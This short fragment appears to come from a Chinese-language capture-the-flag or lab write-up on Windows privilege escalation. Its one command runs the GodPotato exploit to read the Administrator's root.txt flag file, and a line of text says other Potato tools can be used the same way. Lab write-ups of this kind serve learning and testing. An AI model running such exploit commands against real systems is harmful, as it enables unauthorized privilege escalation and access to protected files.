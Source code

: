 ![](./images/image-373.png)

```
./GodPotato-NET4.exe -cmd 'cmd /c  type C:\Users\Administrator\Desktop\root.txt'
```

可以看到成功读取，当然其他的一些**Potato**也能这样执行

![](./images/image-374.png)
